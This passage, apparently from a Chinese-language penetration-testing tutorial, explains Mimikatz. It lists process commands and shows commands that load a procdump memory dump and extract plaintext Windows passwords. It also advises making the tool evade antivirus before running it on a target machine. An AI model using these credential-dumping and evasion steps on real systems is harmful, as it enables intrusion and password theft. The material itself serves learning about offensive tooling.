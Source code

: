 -   **process 模块**

```plain
mimikatz # process::start command     启动进程
mimikatz # process::stop command      结束进程
mimikatz # process::list       列出进程
```

> Mimikatz 因为效果太好导致会被杀毒警报，若是想在⽬标机器运⾏先考虑是否需要对 Mimikatz 做免杀处理。

#### 2、简单使用

Mimikatz 能够从内存中提取纯⽂本密码，通过参数 `sekurlsa::minidump` 载⼊刚才 procdump 获取的 dmp ⽂件后，就可以使⽤ `sekurlsa::logonpasswords full` 等命令，对密码进⾏读取。实现效果如下图：

```plain
mimikatz.exe
sekurlsa::minidump ./passwd.dmp
sekurlsa::logonpasswords full
```

[![](assets/1706496056-ea22ae80aefa4443726f57f3b3d66f4c.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172306087-939485858.png)
